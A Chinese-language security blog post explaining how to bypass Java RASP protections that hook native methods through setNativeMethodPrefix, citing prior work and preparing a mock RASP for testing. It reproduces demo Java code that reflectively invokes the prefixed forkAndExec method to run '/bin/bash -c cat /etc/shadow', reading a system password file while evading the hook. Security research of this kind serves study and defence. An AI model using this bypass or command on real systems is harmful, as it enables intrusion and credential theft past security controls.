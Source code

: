
# Bypass RASP NativeMethodPrefix 学习

原创 yzddMr6

[↓↓↓](javascript:)  
  
网络安全回收站  
  
[↑↑↑](javascript:)

*2023-12-28 18:06* *发表于浙江*

## 背景

众所周知，Java 的 RASP 是没有办法直接 Hook Native 方法的，但确实有这个场景的需求。于是 JDK 官方出了一个 java.lang.instrument.Instrumentation#setNativeMethodPrefix，在 Java 方法映射 C++ 方法的时候加一个前缀，这样相当于创建一个了原有 Native 方法的代理，从而实现了 Hook Native 方法。

jrasp 应该是最早公开介绍该技术用于 RASP 防御的（经 su18 师傅提醒，严谨一些）：https://www.jrasp.com/guide/technology/native\_method.html。

但是当攻击者有一定代码执行权限的时候，还是可以绕过。以命令执行来说，原来的 Native 方法为 forkAndExec，加个前缀变成 prefixforkAndExec，那么我们只需要反射调用 prefixforkAndExec 这个新的方法名即可。

turn1tup 师傅给出了一个绕过的 demo，核心逻辑为通过反射拿到真正的 native 方法，即可绕过 RASP 对于命令执行的 hook:https://github.com/turn1tup/JvmRaspBypass/blob/main/src/main/java/com/test/RaspExample.java

```bash
try {
    Class<?> clazz = Class.forName("java.lang.UNIXProcess");

    //cmd2,bypass jrasp native hook
    for (Method m : clazz.getDeclaredMethods()) {
        if (m.getName().endsWith("forkAndExec")&&!m.getName().equals("forkAndExec")) {
            m.setAccessible(true);
            System.out.println("prefix native method : "+m.getName());
            Cmd.linuxCmd(new String[]{"/bin/bash","-c","cat /etc/shadow && touch /tmp/shadow2"},m);
        }
    }
} catch (Exception ignore) {
    ignore.printStackTrace();
}
```

最近在实际攻防中发现该方式挺有用的，因此本人进行扩展，实现了一个 Win/Linux 下通用的，自动绕过 MethodPrefix 的，可回显的，反射 Native 方法执行命令的 JSP Demo。

## 搞一个简单的 RASP

为了测试，先模拟一个 setNativeMethodPrefix 的 RASP，参考 https://www.secrss.com/articles/49044，主要逻辑为：1.移除想要 hook 的 native 方法。2.增加一个 native 方法，这个方法和 hook 的 native 方法除了方法名增加 prefix，其他相同。3.增加一个和 hook native 方法同名的 java 方法（除了 native modifier 之外其他和 hook native 方法相同），其中返回时调用 prefix native 方法。这里为了简单起见直接 throw Exception，把命令执行给干掉。
